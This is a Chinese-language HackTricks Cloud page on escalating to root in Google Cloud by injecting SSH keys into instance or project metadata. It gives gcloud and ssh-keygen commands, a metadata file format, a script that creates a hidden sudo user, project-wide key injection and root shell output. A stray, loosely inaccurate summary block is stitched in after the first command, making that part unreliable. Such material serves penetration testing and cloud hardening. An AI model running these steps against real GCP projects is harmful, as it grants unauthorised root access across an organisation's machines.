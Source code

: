 # GCP - 添加自定义SSH元数据

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

拥有**修改实例元数据**权限的攻击者可以通过这个权限（可能受范围限制）危害/提升到服务账户：

### **将SSH密钥添加到自定义元数据**

在GCP上运行的**Linux** **系统**通常会运行[Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)脚本。其中之一是[账户守护进程](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，它会**定期** **查询**实例元数据端点，以获取**授权SSH公钥的更改**。

**如果遇到新的公钥**，它将被处理并**添加到本地机器**。根据密钥的格式，它将被添加到**现有用户的`~/.ssh/authorized_keys`文件中，或者创建一个具有`sudo`权限的新用户**。

因此，如果您可以使用您的服务账户**修改自定义实例元数据**，您可以通过**获得对特权账户的SSH权限**来在本地系统上**提升**为root。如果您可以修改**自定义项目元数据**，您可以在运行账户守护进程的**当前GCP项目中的任何系统上提升**为root。

### **向现有特权用户添加SSH密钥**

让我们首先向一个现有账户添加我们自己的密钥，因为这可能会产生最小的干扰。

**检查实例中现有的SSH密钥**。选择其中一个用户，因为他们很可能拥有sudo权限。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
```markdown
# GCP Compute Privilege Escalation via Custom SSH Metadata

在 GCP 中，如果你有权限修改一个 Compute Engine 实例的元数据，你可以通过添加自定义 SSH 密钥来提升权限。这可以让你以任何用户身份登录到实例中，包括 root 用户。

## 步骤

1. 确认你对目标实例有编辑权限。
2. 在 GCP 控制台中，导航到 Compute Engine。
3. 选择目标实例。
4. 点击“编辑”按钮。
5. 向下滚动到“SSH 密钥”部分。
6. 点击“显示和编辑”。
7. 在文本框中粘贴你的公钥。
8. 点击“保存”并等待实例重启。

一旦实例重启，你应该能够使用你的私钥以任何用户身份登录。

## 注意事项

- 确保你的 SSH 密钥格式正确，否则可能无法添加。
- 如果实例配置为从项目元数据继承 SSH 密钥，你可能需要在项目级别添加你的密钥。
- 一些组织可能有额外的安全措施来防止这种类型的权限提升，例如 OS Login。

## 结论

通过添加自定义 SSH 密钥到 GCP Compute Engine 实例的元数据，你可以实现权限提升。这是一个强大的技术，但也要注意可能存在的安全限制。
```
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
注意公钥的**略微奇怪的格式** - **用户名**列在**开头**（后面跟着冒号），然后在**末尾**再次出现。我们需要匹配这种格式。与正常的SSH密钥操作不同，用户名绝对重要！

**将带有用户名和密钥的行保存在一个名为** `meta.txt` **的新文本文件中**。

假设我们的目标用户是上面的`alice`。我们将为自己**生成一个新密钥**，像这样：
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
将您的新公钥添加到文件 `meta.txt` 中，模仿以下格式：
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
现在，您可以使用以下命令为您的实例**重写SSH密钥元数据**：
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
你现在可以按照以下方式**以`alice`的上下文访问shell**：
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **创建一个新的特权用户并添加 SSH 密钥**

按照上述步骤没有找到现有的密钥？在 `/etc/passwd` 中没有其他有趣的目标用户？

您可以**遵循上述相同的过程**，但只需**编造一个新的用户名**。这个用户将会自动被创建，并被赋予 `sudo` 权限。脚本化的过程看起来是这样的：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

根据前一节中提到的细节，您可以尝试攻破更多的虚拟机。

我们可以通过[**在项目级别应用SSH密钥**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide)，为您授予权限，使您能够**SSH进入任何未明确选择“阻止项目范围SSH密钥”选项的实例的特权账户**。
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
如果你真的很大胆，你也可以直接输入 `gcloud compute ssh [INSTANCE]` 来使用你当前的用户名连接其他机器。

# 参考资料
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果你想在 **HackTricks** 上看到你的**公司广告**或者**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享你的黑客技巧**。

</details>
